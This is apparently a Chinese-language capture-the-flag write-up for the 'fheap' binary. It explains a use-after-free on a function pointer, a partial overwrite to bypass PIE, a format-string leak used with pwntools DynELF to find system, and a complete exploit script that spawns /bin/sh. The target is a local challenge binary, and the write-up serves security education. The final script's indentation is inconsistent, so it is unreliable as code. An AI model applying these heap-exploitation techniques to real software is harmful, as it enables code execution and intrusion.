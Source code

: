 ```yaml
---
title: fheap-UAF
date: 2019-03-02 14:39:57
tags:[UAF,DynELF,PIE,format string]
---
```


## Analysis
```
Canary                        : Yes
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
程序有两个功能：1、create string 2、delete string
在create string函数中，当申请的字符串长度小于16字节时，会直接将字符串存放在堆中；如果大于等于16字节，就会另申请一块堆内存，并将指针存放在原堆块中。程序结构体如下所示

```
typedef struct String{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;
```
程序在delete string时free堆块，没有将堆指针设为NULL，导致存在UAF漏洞，可以通过UAF漏洞覆盖`void (*free)(struct String *ptr);`函数指针为我们想要执行的函数，因为函数开启了PIE，所以要绕过PIE。

## 利用UAF和partial overwrite绕过PIE
由于内存页的载入机制，PIE的随机化只能对单个内存页进行随机化，因为一个内存页的大小通常为0x1000，所以对于一个被随机化的地址来说，无论地址怎么变，它的低12bit，3个十六进制数不会变。所以可以通过partial overwrite，修改`void (*free)(struct String *ptr);`函数指针。
因为覆盖时只能覆盖整个字节（8bit或16bit，即2个或4个十六进制数），原函数指针后三位为0xD52，经观察puts函数`.text:0000000000000D2D                 call    _puts`后三位为0xD2D，所以只需要将0x52覆盖为0x2D就可以实现puts打印出puts的地址，然后减去0xD2D获取程序基址
```
        create(4,'bb')
        create(4,'cc')
        delete(1)
        delete(0)
        data='a' * 0x10 + 'b' * 0x8 + '\x2d'
        create(0x20, data)  #data被写进chunk1中
        delete(1)
        p.recvuntil('b' * 0x8)
        data = u64(p.recv(6).ljust(8,'\x00'))
        process_base = data - 0xd2d
        delete(0)

```
获取了程序的基址，接下来就是获取system函数的地址，因为程序为调用过system函数，所以使用pwntools的DynELF函数对程序使用的libc库进行搜索，获取system函数的地址。
## 利用UAF和格式化字符串漏洞获取system地址
DynELF是pwntools中专门用来应对无libc情况的漏洞利用模块，需要一个程序存在可以反复触发信息泄露的漏洞，从而可以不断泄露libc地址空间内的信息。
将`void (*free)(struct String *ptr);`覆盖为printf，进而构造利用格式化字符串漏洞泄露内存。leak函数如下
```
printf_plt = process_base + 0x9d0
def leak(addr):
        data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
        create(0x20, data)
        p.recvuntil("quit")
        p.sendline("delete string")
        p.recvuntil('id:')
        p.sendline(str(1))
        p.recvuntil('sure?:')
        p.sendline('yes12345' + p64(addr))
        data = p.recvuntil('AA')[:-2]
        data += "\00"
        return data
```
发现printf函数调用时出现segmentation段错误，后来对比发现正常的printf函数流程在`<__printf+34>`当ZF=1时je会跳转，而`<__printf+7>:test   al,al`当al and al等于0时会将ZF标志寄存器置1，故al and al = 1时，je会跳转。段错误时，printf函数没有发生跳转，而是执行到`<__printf+36>`，发生错误。
```
0x7ff6ab807800 <__printf>:	sub    rsp,0xd8
   0x7ff6ab807807 <__printf+7>:	test   al,al
   0x7ff6ab807809 <__printf+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x7ff6ab80780e <__printf+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x7ff6ab807813 <__printf+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x7ff6ab807818 <__printf+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x7ff6ab80781d <__printf+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x7ff6ab807822 <__printf+34>:	je     0x7ff6ab80785b <__printf+91>
   0x7ff6ab807824 <__printf+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x7ff6ab807829 <__printf+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x7ff6ab80782e <__printf+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x7ff6ab807833 <__printf+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x7ff6ab80783b <__printf+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x7ff6ab807843 <__printf+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x7ff6ab80784b <__printf+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x7ff6ab807853 <__printf+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x7ff6ab80785b <__printf+91>:	lea    rax,[rsp+0xe0]
   ......
```
所以讲`void (*free)(struct String *ptr);`指向0xF51，会将al置零
```
.text:0000000000000F51                 mov     eax, 0
.text:0000000000000F56                 call    _printf
.text:0000000000000F5B                 mov     rdx, [rbp+nbytes] ; nbytes
```
测试后发现，printf可以正常打印出地址，但是只能执行一次，因为DynELF要求leak函数能够重复执行，分析发现，原来的leak函数中函数指针指向print@plt，调用函数，函数的返回值不变，执行`delete(1)`后，能根据返回值，返回到菜单界面，再次执行`delete(0)`，而将函数指针指向0xF51时，调用了一个call，函数的返回到0xF5B，程序返回不到原来的菜单界面。
最后通过在leak函数前，再次`create(0x20,data)`，释放堆快，重新布局内存空间，不需要将函数指针指向0xF51也可以正常执行printf函数。
泄露出system函数地址后，再次利用函数指针，执行`/bin/sh;`获取shell。

## EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./fheap')
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = "debug")

def create(size,content):
	p.recvuntil("quit")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil('str:')
	p.sendline(content.ljust(size,'\x00'))
	p.recvuntil('n')

def delete(idx):
	p.recvuntil("quit")
	p.sendline("delete string")
	p.recvuntil('id:')
	p.sendline(str(idx))
	p.recvuntil('sure?:')
	p.send('yes '+'\n')

printf_plt = 0

def leak(addr):
	delete(0)
	data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
  create(0x20, data)
  p.recvuntil("quit")
  p.sendline("delete string")
  p.recvuntil('id:')
  p.sendline(str(1))
  p.recvuntil('sure?:')
  p.sendline('yes12345' + p64(addr))
  data = p.recvuntil('AA')[:-2]
	data += "\00"
	return data

def pwn():
	global printf_plt
	create(4,'bb')
	create(4,'cc')
	delete(1)
	delete(0)
	#get the base address of process due to the process has opened ASLR(PIE).
	data='a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20, data)
	delete(1)
	p.recvuntil('b' * 0x8)
	data = u64(p.recv(6).ljust(8,'\x00'))
	process_base = data - 0xd2d
	log.success('process_base:'+hex(process_base))
	printf_plt = process_base + 0x9d0
	log.success('printf_plt:'+hex(printf_plt))
	delete(0)

	data = 'a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20,data)
	delete(1)
	d = DynELF(leak,process_base,elf = ELF('./fheap'))
	system_addr = d.lookup('system','libc')
	delete(0)
	log.success('system_addr:'+hex(system_addr))

	data = '/bin/sh;' + '#'*(0x18 - len('/bin/sh;')) + p64(system_addr)
	create(0x20,data)
	delete(1)
	p.interactive()

if __name__ == '__main__':
	pwn()

```
